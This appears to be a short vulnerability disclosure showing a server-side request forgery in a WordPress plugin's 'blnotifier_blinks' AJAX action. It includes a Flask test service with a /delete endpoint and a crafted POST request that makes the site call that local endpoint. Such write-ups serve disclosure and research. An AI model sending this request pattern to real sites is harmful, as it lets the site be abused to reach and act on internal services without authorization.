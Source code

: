 Create a simple local service using Python

```py
from flask import Flask, request
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Visit the homepage and obtain the `nonce`

2. Send a POST request to the endpoint

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=blnotifier_blinks&nonce=87f4d1ef16&source_url=http://localhost:8001/&header_links[0]=http://127.0.0.1:8001/delete?id=1
```

**Result**:

![Result](result.png "Successfully sent request to local service")

## Conclusion

